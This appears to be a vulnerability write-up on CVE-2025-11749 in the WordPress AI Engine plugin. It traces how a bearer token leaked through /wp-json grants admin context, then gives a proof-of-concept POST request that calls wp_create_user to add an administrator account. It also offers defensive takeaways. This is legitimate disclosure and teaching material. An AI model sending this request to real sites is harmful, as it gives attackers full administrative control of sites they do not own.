






<!--more-->

## CVE & Basic Info
The AI Engine plugin for WordPress is affected by a **Sensitive Information Disclosure** vulnerability in all versions up to **3.1.3**, via the REST API endpoint **/mcp/v1/**. This vulnerability exposes a **Bearer Token** when the **“No-Auth URL”** option is enabled. This allows unauthenticated attackers to obtain the bearer token and gain access to a valid session, enabling actions such as **creating a new administrator account**, resulting in **privilege escalation**.

* **CVE ID**: [CVE-2025-11749](https://www.cve.org/CVERecord?id=CVE-2025-11749)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: <= 3.1.3
* **Patched Versions**: 3.1.4
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress AI Engine Plugin](https://wordpress.org/plugins/ai-engine/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **AI Engine**:  
    * `3.1.3` – **vulnerable**  
    * `3.1.4` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis 
The plugin registers the following API:

```php {title="mcp.php v3.1.3" data-open=true hl_lines=[9,13]}
public function rest_api_init() {
    // Load bearer token if not already loaded
    if ( $this->bearer_token === null ) {
      $this->bearer_token = $this->core->get_option( 'mcp_bearer_token' );
    }
    ...
    // No-Auth URL endpoints (with token in path)
    $noauth_enabled = $this->core->get_option( 'mcp_noauth_url' );
    if ( $noauth_enabled && !empty( $this->bearer_token ) ) {
        ...
        register_rest_route( $this->namespace, '/' . $this->bearer_token . '/messages', [
            'methods' => 'POST',
            'callback' => [ $this, 'handle_message' ],
            'permission_callback' => function ( $request ) {
                return $this->handle_noauth_access( $request );
            },
        ] );
    }
}
```

The conditions for these APIs to work are:

* **Bearer Token** must be set (must have a value).
* **No-Auth URL** option must be enabled.

These settings can be configured in the Admin Dashboard (Endpoint: `/wp-admin/admin.php?page=mwai_settings&nekoTab=settings`) as follows:



We set the **Bearer Token** to any arbitrary string, for example: `aaaaaaaaaa`.

This string acts as a **secret key** to access these APIs.
Only those who know this value should be able to call the corresponding endpoints.

However, according to the CVE description, this becomes part of the vulnerability — even unauthenticated users can obtain the **Bearer Token**, meaning it is no longer secret.

Everything is **exposed** when accessing `/wp-json`. WordPress returns the **REST API Index**, which lists all available APIs, including those containing the **Bearer Token**.



All users (including **unauthenticated users**) can access `/wp-json`.

The **v3.1.4 patch** adds `'show_in_rest' => false` when registering the API, in order to **hide the endpoints from `/wp-json`**.


This helps to:

* Hide APIs from the REST listing
* Reduce the likelihood of enumeration

However:

* The API is still accessible if the URL is known
* This does not replace proper authentication

👉 This is merely security by obscurity, not real protection.

The API is registered with `permission_callback` set to `handle_noauth_access`:

```php {title="permission_callback" data-open=true hl_lines=[5,14]}
public function handle_noauth_access( $request ) {
    // For no-auth URLs, the token is already verified by being in the URL path
    // Double-check that the route actually contains the token
    $route = $request->get_route();
    if ( strpos( $route, '/' . $this->bearer_token . '/' ) === false ) {
      if ( $this->logging ) {
        error_log( '[AI Engine MCP] ❌ Invalid no-auth URL access attempt.' );
      }
      return false;
    }

    // Set the current user to admin since token is valid
    if ( $admin = $this->core->get_admin_user() ) {
      wp_set_current_user( $admin->ID, $admin->user_login );
    }
    return true;
}
```

This function validates the **Bearer Token**. If valid, it executes:

```php
wp_set_current_user( $admin->ID, $admin->user_login );
```

This assigns the current user as admin, allowing the request to proceed with full administrative privileges. Once the request finishes, the admin context ends.

When accessing `/wp-json/mcp/v1/aaaaaaaaaa/messages`, the `handle_message` callback is invoked:

```php {title="mcp.php v3.1.3" data-open=true hl_lines=[10,21,32]}
public function handle_message( WP_REST_Request $request ) {
    ...
    $raw = $request->get_body();
    $dat = json_decode( $raw, true );
    ...
    $id = $dat['id'] ?? null;
    $method = $dat['method'] ?? null;
    ...
    // It's a notification, no ID = no reply
    if ( $id === null && $method !== null ) {
      return new WP_REST_Response( null, 204 );
    }
    ...
    try {

      $reply = null;

      #region Methods switch
      switch ( $method ) {
        ...
        case 'tools/call':
          $params = $dat['params'] ?? [];
          $tool = $params['name'] ?? '';
          $arguments = $params['arguments'] ?? [];

          if ( $this->logging ) {
            error_log( '[AI Engine MCP SSE] 🔧 tools/call - Tool: ' . $tool );
            error_log( '[AI Engine MCP SSE] 🔧 tools/call - Arguments: ' . wp_json_encode( $arguments ) );
          }

          try {
            $reply = $this->execute_tool( $tool, $arguments, $id );
            if ( $this->logging ) {
              error_log( '[AI Engine MCP SSE] ✅ tools/call - Success for tool: ' . $tool );
            }
          }
          catch ( Exception $e ) {
            if ( $this->logging ) {
              error_log( '[AI Engine MCP SSE] ❌ tools/call - Error: ' . $e->getMessage() );
            }
            throw $e;
          }
          break;
        ...
      }
      #endregion

      if ( $reply ) {
        // Don't log response queuing - it's too noisy
        $this->store_message( $sess, $reply );
      }

    }
    catch ( Exception $e ) {
      $this->queue_error( $sess, $id, -32603, 'Internal error', $e->getMessage() );
    }

    return new WP_REST_Response( null, 204 );
}
```

This function receives a JSON request, parses it, executes the corresponding action, and returns a response if necessary.

* If it is a notification (no `id`) → no response → HTTP 204

```php
if ($id === null && $method !== null)
```

* If `method` is `tools/call`, it extracts parameters and calls `execute_tool( $tool, $arguments, $id );`.

Current request body:

```json
{
  "id": 1,
  "method": "tools/call",
  "params": {
  },
  "name": "2",
  "arguments": "3"
}
```

```php {title="mcp.php v3.1.3" data-open=true hl_lines=[4]}
private function execute_tool( $tool, $args, $id ) {
    try {
      ...
      $filtered = apply_filters( 'mwai_mcp_callback', null, $tool, $args, $id, $this );
      ...
    }
    catch ( Exception $e ) {
      return $this->rpc_error( $id, -32603, $e->getMessage() );
    }
}
```

The `execute_tool` function calls callbacks registered to the `mwai_mcp_callback` filter with the provided parameters.

Searching for `mwai_mcp_callback` reveals it is registered inside the `Meow_MWAI_Labs_MCP_Core` class, which directly affects this vulnerability.



This filter is only active if the `Meow_MWAI_Labs_MCP_Core` class is initialized.


This only happens when MCP Features are enabled in WordPress. This can be configured in the Admin Dashboard (`/wp-admin/admin.php?page=mwai_settings&nekoTab=settings`).



Once the filter is active, the callback `handle_call` is invoked:

```php {title="mcp-core.php v3.1.3" data-open=true hl_lines=[7]}
public function handle_call( $prev, string $tool, array $args, int $id ) {
    // Security check is already done in the MCP auth layer
    // If we reach here, the user is authorized to use MCP
    if ( !empty( $prev ) || !isset( $this->tools()[ $tool ] ) ) {
      return $prev;
    }
    return $this->dispatch( $tool, $args, $id );
}
```

If the tool is valid, it calls `dispatch( $tool, $args, $id )`.

Among the available tools is `wp_create_user`, which creates a new user with arbitrary privileges.



This tool requires the following parameters: `user_login`, `user_email`, `user_pass`, `display_name`, `role`.

Example request body:

```json
{
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "wp_create_user",
    "arguments": {
      "user_login": "hacker",
      "user_email": "hacker@gmail.com",
      "user_pass": "hacker",
      "display_name": "hacker",
      "role": "administrator"
    }
  },
  "name": "2",
  "arguments": "3"
}
```

Continuing into `dispatch`:

```php {title="mcp-core.php v3.1.3" data-open=true hl_lines=[13]}
private function dispatch( string $tool, array $a, int $id ): array {
    $r = [ 'jsonrpc' => '2.0', 'id' => $id ];
    switch ( $tool ) {
    ...
      case 'wp_create_user':
        $data = [
          'user_login' => sanitize_user( $a['user_login'] ),
          'user_email' => sanitize_email( $a['user_email'] ),
          'user_pass' => $a['user_pass'] ?? wp_generate_password( 12, true ),
          'display_name' => sanitize_text_field( $a['display_name'] ?? '' ),
          'role' => sanitize_key( $a['role'] ?? get_option( 'default_role', 'subscriber' ) ),
        ];
        $uid = wp_insert_user( $data );
        if ( is_wp_error( $uid ) ) {
          $r['error'] = [ 'code' => $uid->get_error_code(), 'message' => $uid->get_error_message() ];
        }
        else {
          $this->add_result_text( $r, 'User created ID ' . $uid );
        }
        break;
    ...
    }
}
```

This function calls `wp_insert_user` to create a new WordPress user using attacker-controlled values → **Privilege Escalation**.

## Flow


flowchart TD
A["Unauthenticated Attacker"]
--> B["Access /wp-json"]

B --> C["REST API exposes MCP endpoints (Bearer Token leaked)"]

C --> D["Extract Bearer Token from response"]

D --> E["Send POST request to /wp-json/mcp/v1/{token}/messages"]

E --> F["permission_callback → handle_noauth_access()"]

F --> G["Bearer Token valid"]

G --> H["wp_set_current_user(admin)"]

H --> I["handle_message()"]

I --> J["method = tools/call"]

J --> K["execute_tool()"]

K --> L["mwai_mcp_callback triggered"]

L --> M["dispatch()"]

M --> N["wp_create_user()"]

N --> O["New administrator account created"]

O --> P["Privilege Escalation"]


## Proof of Concept (PoC)

1. Access `/wp-json` to retrieve the **Bearer Token**
2. Send request:

```http
POST /wp-json/mcp/v1/{token}/messages HTTP/1.1
Host: localhost

{
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "wp_create_user",
    "arguments": {
      "user_login": "hacker",
      "user_email": "hacker@gmail.com",
      "user_pass": "hacker",
      "display_name": "hacker",
      "role": "administrator"
    }
  },
  "name": "2",
  "arguments": "3"
}
```

3. Log in using the newly created account.



## Conclusion

The vulnerability in AI Engine (≤ 3.1.3) arises from an improper combination of the “No-Auth URL” mechanism and internal authorization logic, resulting in administrative privileges being granted based solely on a publicly exposed Bearer Token.

Once the MCP endpoint is exposed in `/wp-json`, an attacker can retrieve the token, invoke privileged APIs, and perform sensitive actions such as creating administrator accounts without authentication.

Although admin privileges exist only for the duration of the request, a single successful request is sufficient to create a persistent administrator account, resulting in full privilege escalation.

The v3.1.4 patch merely hides the endpoint from the REST index, reducing discoverability but not addressing the core security design flaw.

## Key Takeaways

* **Never use tokens in URLs as an authentication mechanism.**
* **Hiding endpoints (`show_in_rest = false`) is not security.**
* **`wp_set_current_user()` should never be used for external authentication.**
* **Any API capable of mutating system state must enforce strong authentication and authorization.**
* **Temporary privilege elevation is sufficient to cause permanent compromise.**
* **REST APIs should follow a “deny by default” design principle.**

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress AI Engine Plugin <= 3.1.3 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/ai-engine/vulnerability/wordpress-ai-engine-plugin-3-1-3-unauthenticated-sensitive-information-exposure-to-privilege-escalation-vulnerability)
